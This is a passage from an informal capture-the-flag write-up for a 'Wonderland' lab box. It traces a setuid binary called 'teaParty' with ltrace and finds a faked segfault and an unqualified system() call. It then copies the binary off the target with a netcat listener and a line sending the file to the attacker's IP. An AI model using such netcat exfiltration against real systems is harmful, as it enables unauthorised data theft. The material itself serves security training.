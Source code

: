 ```bash
```
### Let ltrace it
```bash
rabbit@wonderland:/home/rabbit$ ltrace ./teaParty 
setuid(1003)                                                                                                                                       = -1
setgid(1003)                                                                                                                                       = -1
puts("Welcome to the tea party!\nThe Ma"...Welcome to the tea party!
The Mad Hatter will be here soon.
)                                                                                                       = 60
system("/bin/echo -n 'Probably by ' && d"...Probably by Fri, 05 Apr 2024 19:32:17 +0000
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                             = 0
puts("Ask very nicely, and I will give"...Ask very nicely, and I will give you some tea while you wait for him
)                                                                                                        = 69
getchar(1, 0x559459346260, 0x7ff7565ae8c0, 0x7ff7562d11542
)                                                                                         = 50
puts("Segmentation fault (core dumped)"...Segmentation fault (core dumped)
)                                                                                                        = 33
+++ exited (status 33) +++
rabbit@wonderland:/home/rabbit$
``` 
## OK it's made up fault of segmentation 
### Let check strings 
```bash
rabbit@wonderland:/home/rabbit$ strings teaParty 

Command 'strings' not found, but can be installed with:

apt install binutils
Please ask your administrator.

rabbit@wonderland:/home/rabbit$
```

### ohh i can't do it in rabit, let transfer it to my system using netcat
#### Open listener and direct content to a txt file
```bash
┌──(death㉿esther)-[~/Lab-CTF/wonder]
└─$ nc -lvnp 4444 > teaparty
listening on [any] 4444 ...
```
### In rabbit Transfer teaParty file
```bash
rabbit@wonderland:/home/rabbit$ nc 10.17.120.99 4444 < teaParty
c^C
```
### Suspend connection 
```bash
┌──(death㉿esther)-[~/Lab-CTF/wonder]
└─$ nc -lvnp 4444 > teaparty
listening on [any] 4444 ...
```